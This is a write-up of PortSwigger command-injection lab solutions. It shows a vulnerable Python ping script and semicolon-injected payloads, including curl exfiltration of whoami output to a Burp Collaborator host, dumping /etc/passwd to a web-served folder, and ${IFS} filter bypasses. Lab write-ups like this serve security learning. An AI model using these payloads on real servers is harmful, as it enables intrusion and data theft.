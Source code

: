 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

  ![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

  ![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
  ![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

  ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

  ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

  ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

   ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

  ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)

### Challenge 4

Challenge description: Blind OS command injection with output redirection

  ![2023-10-24_15-54](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ceedb1e0-ac2c-4910-8c84-b937bfa72b04)

- The main goal of the challeenge is to redirect uur output to the writable folder "/var/www/images"
- Intercept the feedback request and forward to the repeater

  ![2023-10-24_16-51](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0a43bfb-3541-4357-a4c3-a6e68249df21)

- Use this linux command to redirect whoami output to a file in /var/www/images

        ;touch${IFS}/var/www/images/resullt.txt;whoami${IFS}>${IFS}/var/www/images/result.txt
        ;cat${IFS}/etc/passwd>/var/www/images/result.txt

  ![2023-10-24_16-57](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a0a1c81c-e08b-49cb-98cb-516778b9b206)

- I noticed a particular link is vulnerable to Local File Include and be used to read local files

      https://0a880060030a479a803ac6e800e000e5.web-security-academy.net/image?filename=result.txt

- I redirected the output of /etc/passwd to result.txt and I got this output after visiting the link

  ![2023-10-24_17-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a3e4891c-aaf4-4c1d-8404-a36ac3aeb30a)

- I noticed that I could not redirect the output of 'whoami' but I was able to redirect the contents of /etc/passwd.Challenge solved

  ![2023-10-24_17-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a8ab9448-fbcb-4f90-99da-3ccfd8ad231d)

        
### Last Challenge
Challenge Description: Blind OS command injection with time delays

 ![2023-10-24_17-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7a38ed0f-12b1-4489-a7c8-72b419c31662)

- The goal of this challenge is to initiate a 10 seconds time delay.You can achieve it with bash 'sleep' function

       sleep 10
- I used the payload to initiate time delays

      ;sleep${IFS}20;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10

   ![2023-10-24_17-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0449e534-5ff5-43f9-a63b-0972d8157c1c)

- Challenge solved

   ![2023-10-24_17-53](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/184d6931-a629-4d4d-aa58-51748d5ed3e7)

  

